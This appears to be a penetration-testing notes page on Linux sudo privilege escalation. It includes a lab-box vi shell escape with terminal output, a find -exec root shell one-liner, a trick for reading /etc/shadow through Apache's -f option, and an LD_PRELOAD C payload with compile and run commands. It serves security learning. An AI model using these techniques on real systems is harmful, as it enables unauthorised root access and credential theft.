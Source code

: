 # Sudo

sudo -l ### check sudo access

[https://gtfobins.github.io/](https://gtfobins.github.io/) is a valuable source that provides information on how any program, on which you may have sudo rights, can be used.

Leverage find command

```
sudo find . -exec /bin/sh \; -quit
```

## vi

```
postgres@vaccine:~$ sudo -l
[sudo] password for postgres: 
Matching Defaults entries for postgres on vaccine:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, mail_badpass

User postgres may run the following commands on vaccine:
    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
postgres@vaccine:~$ sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

The contents of the file don’t actually matter here. What we are wanting is to have an active session of **vi** running which we can then use to leverage to a root shell, since **vi** will be running as root already. How does this work? Well within vi you actually have the ability to run terminal commands as a feature, not a bug. So if we have **vi** open, running as root, and we tell the terminal to spawn a shell, I’m sure you can guess _what_ shell is going to be spawned? >:)

<figure><img src="https://miro.medium.com/v2/resize:fit:111/1*1Nm7WSXt842QNht2WnPR6w.png" alt="" height="101" width="111"><figcaption></figcaption></figure>

```
root@vaccine:/var/lib/postgresql# whoami
root

```

## Leverage application functions

Apache2 has an option that supports loading alternative configuration files (-f). Loading the `/etc/shadow` file using this option will result in an error message that includes the first line of the `/etc/shadow` file.

## **Leverage LD\_PRELOAD**

On some systems, you may see the LD\_PRELOAD environment option.

\


![](https://i.imgur.com/gGstS69.png)

LD\_PRELOAD is a function that allows any program to use shared libraries. This [blog post](https://rafalcieslak.wordpress.com/2013/04/02/dynamic-linker-tricks-using-ld\_preload-to-cheat-inject-features-and-investigate-programs/) will give you an idea about the capabilities of LD\_PRELOAD. If the "env\_keep" option is enabled we can generate a shared library which will be loaded and executed before the program is run. Please note the LD\_PRELOAD option will be ignored if the real user ID is different from the effective user ID.\


The steps of this privilege escalation vector can be summarized as follows;

1. Check for LD\_PRELOAD (with the env\_keep option)
2. Write a simple C code compiled as a share object (.so extension) file
3. Run the program with sudo rights and the LD\_PRELOAD option pointing to our .so file

The C code will simply spawn a root shell and can be written as follows;

\#include \<stdio.h>\
\#include \<sys/types.h>\
\#include \<stdlib.h>\
\
void \_init() {\
unsetenv("LD\_PRELOAD");\
setgid(0);\
setuid(0);\
system("/bin/bash");\
}\


We can save this code as shell.c and compile it using gcc into a shared object file using the following parameters;

`gcc -fPIC -shared -o shell.so shell.c -nostartfiles`

\


![](https://i.imgur.com/HxbszMW.png)

We can now use this shared object file when launching any program our user can run with sudo. In our case, Apache2, find, or almost any of the programs we can run with sudo can be used.

We need to run the program by specifying the LD\_PRELOAD option, as follows;

`sudo LD_PRELOAD=/home/user/ldpreload/shell.so find`

This will result in a shell spawn with root privileges.



![](https://i.imgur.com/1YwARyZ.png)

\
